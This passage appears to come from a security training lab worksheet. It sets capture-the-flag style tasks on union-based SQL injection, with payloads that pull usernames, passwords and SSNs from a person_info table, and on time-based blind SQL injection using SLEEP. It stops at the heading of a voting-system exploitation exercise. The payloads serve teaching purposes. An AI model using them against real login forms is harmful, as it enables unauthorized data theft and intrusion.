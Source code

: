 #### Task 2.2: Union-Based SQL Injection
**Objective:** Extract data from the database

**Payloads:**
```sql
Username: admin' UNION SELECT 1,2,3,4,5,6,7,8,9--
Password: anything

Username: admin' UNION SELECT CitizenNum,Username,Password,SSN,1,2,3,4,5 FROM person_info--
Password: anything
```

**Instructions:**
1. Try the payloads above
2. Observe what data is returned
3. Can you see other users' credentials?

**Document:**
```
Number of columns in query: __________

Data extracted:
User 1: ___________________
User 2: ___________________
User 3: ___________________

FLAG FOUND: ________________
```

#### Task 2.3: Blind SQL Injection
**Objective:** Detect SQL injection using timing attacks

**Payload:**
```sql
Username: admin' AND (SELECT SLEEP(5))--
Password: anything
```

**Questions:**
1. How long did the request take?
2. Did the 5-second delay confirm the vulnerability?
3. What other information could you extract using this technique?

**Document:**
```
Response time: __________ seconds

Blind SQLi confirmed: YES / NO

FLAG FOUND: ________________
```

---

## 🗳️ Exercise 3: Voting System Exploitation (45 minutes)
